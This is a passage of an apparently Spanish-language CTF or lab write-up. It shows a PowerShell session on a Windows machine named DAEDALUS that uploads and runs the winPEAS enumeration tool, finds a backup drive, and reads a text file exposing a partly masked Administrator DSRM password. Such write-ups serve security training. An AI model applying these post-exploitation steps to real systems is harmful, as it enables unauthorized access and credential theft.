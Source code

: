 ```powershell
PS C:\Users\svc_backup.DAEDALUS\Documents> upload winpeas.exe

Info: Uploading winpeas.exe to C:\Users\svc_backup.DAEDALUS\Documents\winpeas.exe  

Data: 3166888 bytes of 3166888 bytes copied

Info: Upload successful!

PS C:\Users\svc_backup.DAEDALUS\Documents> .\winpeas.exe
```

Entre la información recopilada por WinPEAS.exe, se identificó la existencia de otra unidad lógica, la unidad E:

```powershell
ÉÍÍÍÍÍÍÍÍÍÍ¹ Drives Information
È Remember that you should search more info inside the other drives
    C:\ (Type: Fixed)(Filesystem: NTFS)(Available space: 10 GB)(Permissions: Users [AppendData/CreateDirectories])
    E:\ (Type: Fixed)(Volume label: Backups)(Filesystem: NTFS)(Available space: 4 GB)(Permissions: Users [AppendData/CreateDirectories])
```

Se procedió a cambiar al directorio de la unidad E: y, tras explorar los directorios, se descubrió un archivo llamado Users.txt que contenía credenciales para el usuario Administrator.

```powershell
PS C:\Users\svc_backup.DAEDALUS\Documents> E:
PS E:\> dir

    Directory: E:\

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       10/13/2020   3:54 PM                Annual IT Compliance Report - Export  

PS E:\> cd 'Annual IT Compliance Report - Export'
PS E:\Annual IT Compliance Report - Export> dir

    Directory: E:\Annual IT Compliance Report - Export

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/10/2020   6:04 AM           4852 Builtin.txt
-a----       10/10/2020   6:04 AM            530 Daedalus.txt
-a----       10/10/2020   6:05 AM           2541 Users.txt

PS E:\Annual IT Compliance Report - Export> type Users.txt
Name	Type	Description
Administrator	User	DSRM Password: kF4d*********
.........................................................
PS E:\Annual IT Compliance Report - Export>
```
